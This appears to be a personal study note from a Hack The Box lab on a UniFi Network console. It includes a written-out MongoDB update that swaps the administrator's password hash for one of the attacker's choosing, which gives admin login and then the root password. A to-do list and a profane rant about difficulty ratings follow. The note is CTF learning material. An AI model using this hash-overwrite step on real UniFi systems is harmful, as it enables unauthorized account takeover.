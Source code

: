 # we identified the x_shadow field as a shadow file hash `sha512crypt $6$, SHA512 (Unix) 2` in hashcat
# *instead of cracking it,* we use the update command to change the hash generated using `mkpasswd -m sha-512 P3@ceW1thHTB` and log in as administrator the unifi network administrator console
```
db.admin.update(
	{
		"_id":ObjectId("61ce278f46e0fb0012d47ee4")
	}
	{
		$set: {
			"x_shadow" : "$6$zyPslwl.HhmblRYH$.39gZbIPfAdOa1IxGeP16F0jarpNztFp5pMyeLAi0HuviqjpQdyd/X7te0Z6fpKNIZ6zP0aBoHriM7yg5OOL60"
		}
	}
)
```
# *after loggin in,* we started **EXPLORING THE APP FUNCTIONALITY** and we find that we can view the root user password in the `device authentication` section under `Settings > Site`

-------------------------------------------------------------------------------------



-------------------------------------------------------------------------------------

# Tasks:
1. configure ftp
2. configure nfs
3. configure mariadb
4. configure nginx
5. configure apache
5. configure CMSs
	1. wordpress
	2. magento
	3. drupal
	4. joomla
+ play around with them

# what i fucking hate about hack the box
1. difficult level. what the fuck is easy????????? according to whom????? mr.robot crew?

# hack the box is about making you learn the technology and what can be done to hack it